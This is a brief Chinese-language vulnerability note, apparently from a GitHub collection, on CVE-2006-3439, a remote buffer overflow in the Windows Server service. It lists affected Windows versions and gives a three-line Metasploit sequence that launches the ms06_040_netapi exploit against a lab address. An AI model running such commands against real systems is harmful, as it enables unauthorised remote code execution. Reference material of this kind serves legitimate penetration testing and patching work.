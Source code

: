 ###  CVE-2006-3439

#### 描述

服务器服务中的缓冲区溢出允许包括匿名用户在内的远程攻击者通过精心制作的RPC消息执行任意代码

#### 影响版本

| Product              | CPU Architecture | Version | Update | Tested             |
| -------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000         |                  |         | SP4    | :heavy_check_mark: |
| Windows  Server 2003 |                  | R2      |        |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows Xp           |                  |         | SP1    |                    |
| Windows Xp           |                  |         | SP2    |                    |

#### 利用方式

msf 利用 测试系统Windows Server 2000 SP4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```


